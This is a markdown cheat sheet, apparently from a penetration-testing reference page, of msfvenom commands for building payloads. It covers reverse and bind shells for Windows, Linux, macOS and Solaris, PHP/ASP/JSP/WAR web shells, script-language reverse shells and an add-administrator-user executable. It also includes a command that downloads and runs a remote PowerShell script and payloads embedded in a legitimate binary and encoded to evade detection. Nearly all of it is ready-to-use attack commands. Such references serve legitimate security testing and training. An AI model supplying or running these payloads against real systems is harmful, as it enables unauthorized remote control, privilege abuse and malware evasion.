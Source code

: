 # MSFVenom - CheatSheet

`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

One can also use the `-a` to specify the architecture or the `--platform`

## Listing

```bash
msfvenom -l #Payloads
msfvenom -l encoders #Encoders
```

## Common params when creating a shellcode

```bash
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 5 
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```

## **Windows**

### **Reverse Shell**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```

### Bind Shell

```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```

### Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```

### CMD Shell

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```

### **Execute Command**

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```

### Encoder

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

### Embedded inside executable

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

## Linux Payloads

### Reverse Shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```

### Bind Shell

```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```

### SunOS (Solaris)

```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```

## **MAC Payloads**

### **Reverse Shell:**

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```

### **Bind Shell**

```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```

## **Web Based Payloads**

### **PHP**

#### Reverse shel**l**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP/x

#### Reverse shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```

### JSP

#### Reverse shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```

### WAR

#### Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

### NodeJS

```bash
sfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```

## **Script Language payloads**

### **Perl**

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```

### **Python**

```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```

### **Bash**

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
